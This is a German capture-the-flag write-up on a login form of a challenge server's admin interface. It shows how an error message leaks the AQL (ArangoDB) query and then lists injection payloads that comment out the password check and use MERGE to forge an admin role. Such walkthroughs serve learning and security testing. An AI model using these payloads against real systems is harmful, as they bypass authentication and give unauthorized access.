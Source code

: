 # Startup 

url: http://vuln2.redrocket.club:8123/

url to admin interface: http://vuln2.redrocket.club:8123/admin

Es war schon schwierig das admin interface zu finden (es gab keinen Link dazu). Weiterhin wusste man nicht was man tun soll, bis man die Eingabefelder wie unter 'Injection' beschrieben, ausprobiert hatte. 

## Injection 
* wenn man sich als mit irgendwas (z.B. admin) einloggt und bei pw \ eingibt kommt das hier: 

Error in: 1: FOR u IN users FILTER u.user == 'admin' && u.passwd == '\' RETURN u. ->AQL: unexpected unterminated string literal near 'u' at position 1:67 (while parsing). Errors: {'code': 400, 'error': True, 'errorMessage': "AQL: unexpected unterminated string literal near 'u' at position 1:67 (while parsing)", 'errorNum': 1501}

Die Query lautet also: 
```
FOR u IN users FILTER u.user == '' && u.passwd == '' RETURN u
```

Darauß folgt: 
* tabelle oder schema heißt: users
* die spalten heißen user und passwd

### Wie muss ich die query verändern? 

* ich brauch den admin als user (Annahme war falsch)
* und dann muss ich die Passwort-Abfrage iwie weg kriegen 
* ich kann im Userfeld selbst definieren wie die query aussehen soll (das war richtig)

### Strategie: Alles nach Username-Abfrage auskommentieren

Meine Injection:
```
' RETURN u // 
```
Vor dem RETURN u kann man jetzt hinschreiben, was man möchte - nach dem return u ist alles auskommentiert, also die Passwort-Abfrage wird gar nicht erst ausgeführt 

Hiermit kann man testen, ob die Query funktoniert: 
```
' OR u.user!='' RETURN u // 
```

## Als Admin einloggen 

### Versuchen sich als Rolle "admin" einzuloggen 
```
' || u.role == "admin" RETURN u // 
```
Die hier würde funktionieren, aber es gibt keinen user mit role admin

### Temporär einen admin erstellen: 
```
' OR u.user!='' RETURN MERGE({u: {"role":"admin"}}) //
```

Es wird die Funktion merge genutzt: 
https://www.arangodb.com/docs/stable/aql/functions-document.html

Hier kann man für den user ein Dokument anlegen (also sowas wie attribute setzen). Man setzt jetzt die Rolle auf admin im return wert und gibt u zurück. 














